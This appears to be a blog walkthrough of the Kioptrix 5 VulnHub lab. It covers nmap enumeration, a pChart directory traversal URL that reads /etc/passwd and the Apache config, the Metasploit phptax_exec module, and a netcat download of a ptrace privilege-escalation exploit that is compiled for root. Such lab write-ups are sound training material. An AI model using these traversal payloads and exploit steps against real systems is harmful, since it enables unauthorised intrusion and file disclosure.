 ```yaml
---
title:  "Kioptrix 5 Walkthrough"
header: "Kioptrix 5 Walkthrough"
categories: 
  - walkthroughs
tags:
  - vulnhub
---
```


This was perhaps my favorite Kioptrix series and really felt like an OSCP-type machine. Once I got more time, I exploited this machine without Metasploit which proved be a lot more rewarding (PHP Passthru's are pretty fun). I would suggest exploiting the machine in several fashions just for the sheer experience of it. It never hurts to wipe away the cobwebs and practice some old skills.  

# Host Enumeration  
***

I started by performing an nmap scan to see what open ports and services were present  

`nmap -T4 -A -v <IP>`  

# Service Enumeration  
***

It appears that port 22 is closed, and port 80 and 8080 are open. I kicked off nikto and dirb against both 80 and 8080 but it didn't crop up anything very interesting.  I pulled up the webpage on port 80 and was presented with a blank page with “It works!”. Upon viewing the source, an interesting URL was presented (shown below).  

![Page Source](/assets/images/kio5source.jpg)  

I navigated to `http://<IP>/pChart2.1.3/examples/index.php` and was presented with the below page.  

![Pchart Page](/assets/images/kio5pchart.jpg)  

I then researched vulnerabilities for pChart 2.1.3 and came across a directory traversal vulnerability found [here](https://www.exploit-db.com/exploits/31173/). To attempt this, I used `http://<IP>/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd` which disclosed the /etc/passwd file from the target machine  

![Passwd Disclosure](/assets/images/kio5passwd.jpg)  

Upon sorting through various files looking for additional information, I was able to bring up the apache config file with `http://192.168.233.133/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf` and found a peculiar entry indicating that access was allowed from a particular browser version.  

![Apache Config](/assets/images/kio5apache.jpg)  

I’ve typically used curl or a browser plugin to change my user agent in the past so I tried a different method this time from [here](https://www.howtogeek.com/113439/how-to-change-your-browsers-user-agent-without-installing-any-extensions/). It’s a good technique if you don’t want to download anything additional and it can work on multiple OS’s since its configuring the browser itself. The entry I chose was `Mozilla/4.0`  

![UserAgent Change](/assets/images/kio5useragent.jpg)  

Upon viewing port 8080 via the browser, I was presented with a listable directory with “phptax” as the only folder.  

![PHPTax Directory](/assets/images/kio5phptaxdir.jpg)  

I navigated to phptax and was presented with a 1040 form.  

![PHPTax Page](/assets/images/kio5phptax.jpg)  

# Breach  
***

I hadn’t used Metasploit in a while so I chose to use the readily available module for phptax 0.8 (exploit/multi/http/phptax_exec). I updated the RHOST for my target machine and the RPORT for 8080 and simply ran `execute`.  

![Metasploit Exploit](/assets/images/kio5metasploit.jpg)  

# Privilege Escalation  
***

Finding a privilege exploit for this machine was trivial, you can find it [here](https://www.exploit-db.com/exploits/26368/). I couldn’t get wget to work so I chose to transfer the exploit using netcat.  

**Attacking machine** - `nc -lvp <PORT> < <FILE>`  
**Target machine** - `nc -nv <IP> <PORT> -w 5 > <FILE>`  

![Netcat File Transfer](/assets/images/kio5transfer.jpg)  

I compiled it using `gcc ptrace.c -o ptrace`, set the permissions with `chmod 777 ptrace` and executed it by `./ptrace`.  

![Root](/assets/images/kio5root.jpg)  

I viewed the flag (/root/congrats.txt) which contained the following:  

![Flag](/assets/images/kio5flag.jpg)  

# Review  
***

Like I mentioned before, this is a fun machine and I certainly recommend it to anyone that is planning on or currently pursuing their OSCP. It forces you to try a few different tactics that you may have not tried before (such as transferring files via netcat, etc.,). Try exploiting this without Metasploit perhaps with a PHP Passthru and let me know your thoughts below in the comments!  
